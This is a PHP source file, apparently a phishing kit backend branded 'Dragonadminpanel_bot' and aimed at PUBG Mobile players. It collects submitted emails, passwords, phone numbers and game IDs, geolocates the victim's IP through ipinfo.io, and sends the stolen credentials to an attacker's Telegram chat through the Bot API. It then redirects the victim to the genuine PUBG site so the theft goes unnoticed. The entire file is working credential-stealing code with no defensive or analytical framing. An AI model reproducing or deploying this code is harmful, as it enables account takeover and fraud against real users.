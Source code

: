 # Dragonadminpanel_bot
<?php
$email = $_POST['email'];
$password = $_POST['password'];
$login = $_POST['login'];
$time = date("Y-m-d H:i:s");
$phone = $_POST['phone'];
$playid = $_POST['playid'];
$apiToken = $tokenYhya;
define('API_KEY',$API_KEY);
function bot($method,$datas=[]){
    $yhya = http_build_query($datas);
        $url = "https://api.telegram.org/bot".API_KEY."/".$method."?$yhya";
        $yhyasyrian = file_get_contents($url);
        return json_decode($yhyasyrian);
    }
    function getUserIP()
    {
        // Get real visitor IP behind CloudFlare network
        if (isset($_SERVER["HTTP_CF_CONNECTING_IP"])) {
                  $_SERVER['REMOTE_ADDR'] = $_SERVER["HTTP_CF_CONNECTING_IP"];
                  $_SERVER['HTTP_CLIENT_IP'] = $_SERVER["HTTP_CF_CONNECTING_IP"];
        }
        $client  = @$_SERVER['HTTP_CLIENT_IP'];
        $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
        $remote  = $_SERVER['REMOTE_ADDR'];
    
        if(filter_var($client, FILTER_VALIDATE_IP))
        {
            $ip = $client;
        }
        elseif(filter_var($forward, FILTER_VALIDATE_IP))
        {
            $ip = $forward;
        }
        else
        {
            $ip = $remote;
        }
    
        return $ip;
    }

$ip = getUserIP();
$api = json_decode(file_get_contents("https://ipinfo.io/$ip"));
$country = $api->country;
$city = $api->city;
$year = date('Y');
$month = date('n');
$day = date('j');
$admin = $idYhya;
bot("sendMessage",[
"chat_id"=>$admin,
"text"=>"
ʜɪ ɴᴇᴡ ᴀᴄᴄᴏᴜɴᴛ
━━━━━━━━━━━━━━━
ᯓ ᴛʏᴘᴇ » $login
ᯓ ᴇᴍᴀɪʟ » `$email`
ᯓ ᴘᴀssᴡᴏʀᴅ » `$password`
ᯓ ɪᴅ » `$playid`
ᯓ ᴅᴀᴛᴇ » $day/$month/$year
ᯓ ᴄᴛʏ  » $city
ᯓ ᴄᴏᴜɴᴛʀʏ » $country
━━━━━━━━━━━━
 - ʙʏ »  @dragon_tc
",
'parse_mode'=>"MarkDown",
'disable_web_page_preview'=>true,
]);
header('Location: https://www.pubgmobile.com/en-US/home.shtml');
